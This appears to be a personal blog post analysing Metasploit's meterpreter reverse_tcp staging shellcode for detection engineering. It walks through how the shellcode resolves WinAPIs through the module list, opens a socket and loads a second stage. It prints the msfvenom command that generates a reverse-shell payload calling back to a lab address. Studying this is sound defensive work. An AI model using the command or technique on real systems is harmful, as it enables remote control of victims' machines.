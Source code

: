 ```yaml
---
layout: post
title:  "The Inner Workings of Meterpreter"
date:   2023-09-17 00:00:00 +0000
categories: malware
---
```


This blog entry covers personal technical research on the meterpreter staging payload. Meterpreter, developed by Metasploit, is a C2 framework used by white and black hats alike.

To begin analysis, I generated a 32-bit Windows meterpreter shellcode with the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. The objective is to understand how the shellcode loads the necessary DLLs and executes the second stage payload.

Understanding the mechanisms of such shellcodes will prove useful in detection engineering.

<br>
### 1. The "main" Function
To give a high-level overview of the shellcode - there is a `main` function at offset 0x95, and a `load-execute` function at offset 0x06. `load-execute` is called from `main` multiple times.

Parameteres are pushed onto the stack from `main` and are passed into `load-execute` to be passed into WinAPIs.

![ida_main](/assets/post_assets/inner-workings-of-meterpreter/ida_main.png)


<br>
### 2. The "load-execute" Function
In ideal shellcode conditions, `load-execute` will be called 7 times to resolve and execute the following WinAPIs in order.

+ kernel32.LoadLibraryA
+ ws_32.WSAStartup
+ ws_32.WSASocketA
+ ws_32.connect
+ ws_32.recv
+ kernel32.VirtualAlloc
+ ws_32.recv (receives second stage payload)

<br>
I'll describe the library loading process in pseuodocode.

{% highlight python %}
for module in moduleList:
    for export in module.exports:
        if signature.matches(export):
            export()
{% endhighlight %}

<br>
The shellcode obtains the `InMemoryOrderModuleList` structure, which it iterates to find the required WinAPI through the `ExportDirectory` structure. This allows the extraction of WinAPI addresses without calling GetProcAddress.

![ida_load2](/assets/post_assets/inner-workings-of-meterpreter/ida_load2.png)

<br>
In the first `load-execute` call, the shellcode finds the address of `LoadLibraryA` and calls `LoadLibraryA("ws2_32")`, the Winsock dll, to enable networking capabilities. 

![loadlibrary_x32](/assets/post_assets/inner-workings-of-meterpreter/loadlibrary_x32.png)


<br>
### 3. Second Stage Payload
Memory space for the second stage payload is allocated with `VirtualAlloc`. The memory space is then populated with the payload received in the second `ws32.recv` call.

![ida_virtualalloc](/assets/post_assets/inner-workings-of-meterpreter/ida_virtualalloc.png)